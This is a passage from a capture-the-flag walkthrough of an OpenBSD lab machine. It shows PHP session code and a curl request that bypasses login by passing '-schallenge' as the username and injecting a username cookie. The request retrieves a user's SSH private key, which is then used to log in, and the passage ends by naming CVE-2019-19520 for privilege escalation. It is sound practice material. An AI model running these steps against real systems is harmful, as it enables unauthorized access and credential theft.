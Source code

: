 	  OpenSSH key not found for user "-schallenge"
	  
* in [auth.php](dump/auth.php) script, there are some session variables defined that applicable in session cookie.

	  function init_session()
	  {
	      $_SESSION["logged_in"] = True;
	      $_SESSION["login_time"] = $_SERVER['REQUEST_TIME'];
	      $_SESSION["last_activity"] = $_SERVER['REQUEST_TIME'];
	      $_SESSION["remote_addr"] = $_SERVER['REMOTE_ADDR'];
	      $_SESSION["user_agent"] = $_SERVER['HTTP_USER_AGENT'];
	      $_SESSION["username"] = $_REQUEST['username'];
	  }

* there is also a `username` variable available,

	  $_SESSION["username"] = $_REQUEST['username'];

* send request with `username=jennifer`

	`curl -L http://10.10.10.199/index.php -d "username=-schallenge&password=password" -b "PHPSESSID=qqe08df89r71d7jb7i869857uh;username=jennifer"`

  **output**, get ssh_key for user jennifer
  
	  OpenSSH key for user jennifer
	  
	  -----BEGIN OPENSSH PRIVATE KEY-----
	  b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
	  ...
	  qtQ5OEFcmVIA/VAAAAG2plbm5pZmVyQG9wZW5rZXlzLmh0Yi5sb2NhbAECAwQFBgc=
	  -----END OPENSSH PRIVATE KEY-----

## ssh

`chmod 600 ssh_key`

`ssh -i ssh_key jennifer@10.10.10.199`
```
openkeys$ whoami         
jennifer
openkeys$ cat user.txt
36ab2123************************
```

## Local Enumeration

```
openkeys$ uname -a
OpenBSD openkeys.htb 6.6 GENERIC#353 amd64
```

**OpenBSD version :** 6.6

**Local Exploit :** CVE-2019-19520: Local privilege escalation via xlock *from that same "qualys" report*
